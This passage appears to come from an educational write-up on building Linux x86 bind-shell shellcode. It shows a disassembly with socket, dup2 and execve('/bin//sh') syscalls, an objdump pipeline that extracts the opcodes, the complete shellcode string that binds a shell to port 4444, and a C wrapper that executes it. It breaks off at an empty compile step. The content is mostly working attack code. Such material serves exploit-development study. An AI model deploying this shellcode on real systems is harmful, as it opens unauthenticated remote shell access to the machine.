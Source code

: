 ```
 80480ae:	b0 66                	mov    al,0x66
 80480b0:	43                   	inc    ebx
 80480b1:	43                   	inc    ebx
 80480b2:	cd 80                	int    0x80
 80480b4:	50                   	push   eax
 80480b5:	50                   	push   eax
 80480b6:	57                   	push   edi
 80480b7:	89 e1                	mov    ecx,esp
 80480b9:	b0 66                	mov    al,0x66
 80480bb:	43                   	inc    ebx
 80480bc:	cd 80                	int    0x80
 80480be:	89 c3                	mov    ebx,eax
 80480c0:	31 c9                	xor    ecx,ecx
 80480c2:	b1 02                	mov    cl,0x2

080480c4 <dup>:
 80480c4:	b0 3f                	mov    al,0x3f
 80480c6:	cd 80                	int    0x80
 80480c8:	49                   	dec    ecx
 80480c9:	79 f9                	jns    80480c4 <dup>
 80480cb:	52                   	push   edx
 80480cc:	68 2f 2f 73 68       	push   0x68732f2f
 80480d1:	68 2f 62 69 6e       	push   0x6e69622f
 80480d6:	89 e3                	mov    ebx,esp
 80480d8:	89 d1                	mov    ecx,edx
 80480da:	b0 0b                	mov    al,0xb
 80480dc:	cd 80                	int    0x80
```
NOTE: Originally.. at 0x804809a: "pushw 0x5c11" there WAS two null bytes my first check for this.  It seems I forgot to specify "push word". I ended up going back, fixing it, verifying, and extract bytes to test.

Now, let's extract the bytes to test out the shellcode.
```
objdump -d ./bind_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x52\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x50\x57\x89\xe1\xb0\x66\x43\x43\xcd\x80\x50\x50\x57\x89\xe1\xb0\x66\x43\xcd\x80\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
```
Our shellcode wrapper, with our shellcode included, is:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x52\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x50\x57\x89\xe1\xb0\x66\x43\x43\xcd\x80\x50\x50\x57\x89\xe1\xb0\x66\x43\xcd\x80\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Compile.:
```shell
```